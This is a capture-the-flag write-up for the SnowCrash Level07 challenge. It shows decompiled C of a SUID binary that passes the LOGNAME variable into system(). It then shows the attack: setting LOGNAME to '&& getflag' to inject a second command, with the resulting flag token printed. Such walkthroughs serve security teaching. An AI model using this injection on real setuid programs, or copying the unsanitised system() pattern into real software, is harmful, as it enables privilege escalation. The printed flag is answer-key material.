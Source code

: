 # Level07

Only one file is present in home directory of the `level07` user witch is a binary named `level07`. The **SUID** bit is set and the owner is user `flag07`.

Passing the file to **Ghidra's** code browser let's us observe the `main()` function's contents.

```c
int main(int argc,char **argv,char **envp)
{
  char *pcVar1;
  int iVar2;
  char *buffer;
  gid_t gid;
  uid_t uid;
  char *local_1c;
  __gid_t local_18;
  __uid_t local_14;
  
  local_18 = getegid();
  local_14 = geteuid();
  setresgid(local_18,local_18,local_18);
  setresuid(local_14,local_14,local_14);
  local_1c = (char *)0x0;
  pcVar1 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);
  iVar2 = system(local_1c);
  return iVar2;
}
```

Interesting information is present. Environment is passed to `main()`. The function stores the contents of the `LOGNAME` environment variable and then calls the `asprintf()` function wich sets the formated string `"/bin/echo %s "` in a buffer. `%s` is replaced by the `LOGNAME` environment variable value previously stored.  
  
The buffer is then passed as argument to the `system()` call.  
  
## The attack  
Simply changing the value of the `LOGNAME` variable to execute the `getflag` command is possible using the double ampersand operator `&&` to execute another command.

```
level07@SnowCrash:~$ export LOGNAME="&& getflag"
level07@SnowCrash:~$ ./level07 

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
